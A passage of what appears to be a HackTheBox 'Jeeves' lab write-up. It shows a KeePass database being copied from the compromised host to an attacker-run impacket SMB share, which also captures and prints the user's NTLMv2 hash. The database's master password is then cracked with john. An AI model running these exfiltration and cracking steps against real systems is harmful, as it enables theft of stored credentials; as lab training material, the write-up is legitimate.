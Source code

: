 > We can see a kdbx file in C:\Users\kohsuke\Documents

```bash
C:\Users\kohsuke\Documents>copy CEH.kdbx \\10.10.16.7\smbFolder\CEH.kdbx
```

```ruby
Overwrite \\10.10.16.7\smbFolder\CEH.kdbx? (Yes/No/All): Yes
Yes
        1 file(s) copied.

```

```bash
❯ impacket-smbserver smbFolder -smb $(pwd) -smb2support
```

```ruby
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49998)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User JEEVES\kohsuke authenticated successfully
[*] kohsuke::JEEVES:aaaaaaaaaaaaaaaa:6975af539bdfb4120f94d823168e77fe:0101000000000000006c33f9d0d6db0117da22f01f02d30200000000010010006e005800570042006b0065004e007300030010006e005800570042006b0065004e0073000200100048006c004e006f005200790072004e000400100048006c004e006f005200790072004e0007000800006c33f9d0d6db0106000400020000000800300030000000000000000000000000300000d2d4b1d2dabb9345a724c890ac83ca71283a38f012d97d2b55140639a57844e60a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003700000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
[*] Disconnecting Share(1:IPC$)
```

- Cracking kdbx password with john

```bash
keepass2john CEH.kdbx > hash.txt
```

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```ruby
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)     
1g 0:00:00:26 DONE (2025-06-06 12:55) 0.03841g/s 2112p/s 2112c/s 2112C/s nando1..monkeybum
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
